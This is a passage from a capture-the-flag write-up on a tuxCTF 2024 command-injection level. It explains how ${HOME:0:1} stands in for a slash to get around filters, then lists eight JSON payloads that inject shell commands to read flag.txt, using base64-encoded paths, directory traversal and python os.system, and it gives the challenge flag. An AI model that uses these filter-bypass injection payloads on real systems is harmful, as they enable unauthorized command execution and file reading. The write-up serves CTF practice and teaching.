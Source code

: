 ```{"command" : ". | pwd"}```
and ```${HOME:0:1}```, ${} we tell the shell to give us the output of some opreation, here we tell it to take the home path variable , which is in every linux system, then it will slice it, for example the home direcroy absolute path is ```/home/kali``` it will take the first character which is ```/```, so what will be executed in the machine terminal is
```bash
. | cat ../flag.txt
```
you can find various bypassing techniques in hacktricks:

[Bypass Linux Restrictions Payloads](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions)

pwned!!!

![image](/assets/img/tuxctf2024/level4/level4-10.png)

The Flag:

```text
tuxCTF{d0t$_4r3_3XeCut@b13}
```
here is a list of all inteded payloads to solve this challenge:

```json
{ "command" : ". | ((echo Li4vZmxhZy50eHQ= | base64 -d) | xargs cat)" }
{ "command" : ". | ((echo L3Vzci9zcmMvYXBwL2ZsYWcudHh0 | base64 -d) | xargs cat)"}
{ "command" : ". <(echo true) && cd $(dirname $PWD) && cat flag.txt" }
{ "command" : ". <(echo true) ; cd $(dirname $PWD) ; cat flag.txt" }
{ "command" : ". | cat ${HOME:0:1}usr${HOME:0:1}src${HOME:0:1}app${HOME:0:1}flag.txt" }
{ "command" : ". ; python -c 'import os;x=os.path.normpath(os.getcwd() + os.sep + os.pardir);os.chdir(x);os.system(\"cat flag.txt\")'"}
{ "command" : ". $ or | or ; cat .''.${HOME:0:1}flag.txt 2>&1"}
{ "command" : ". <(echo true) &&  cat  .''.${HOME:0:1}flag.txt " }
```

happy pwning :)